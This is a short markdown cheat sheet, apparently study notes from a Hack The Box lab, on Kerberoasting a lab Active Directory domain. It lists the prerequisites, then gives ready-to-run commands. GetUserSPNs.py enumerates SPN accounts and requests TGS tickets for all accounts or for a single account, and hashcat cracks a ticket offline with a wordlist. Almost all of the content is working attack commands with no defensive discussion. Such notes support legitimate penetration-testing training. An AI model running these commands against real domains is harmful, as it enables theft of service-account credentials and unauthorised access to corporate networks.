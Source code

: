 #### Requirements
1. NTML Hash / PlainText password
2. Shell in the context of domain user account , or SYSTEM level access on a domain-joined host

#### Listing SPN Accounts with GetUserSPNs.py

```shell
Sauuron@htb[/htb]$ GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend
```

#### Requesting all TGS Tickets

```shell
Sauuron@htb[/htb]$ GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request 
```

#### Requesting a Single TGS ticket

```shell
Sauuron@htb[/htb]$ GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request-user sqldev
```


#### Cracking the Ticket Offline with Hashcat

```shell
Sauuron@htb[/htb]$ hashcat -m 13100 sqldev_tgs /usr/share/wordlists/rockyou.txt 
```
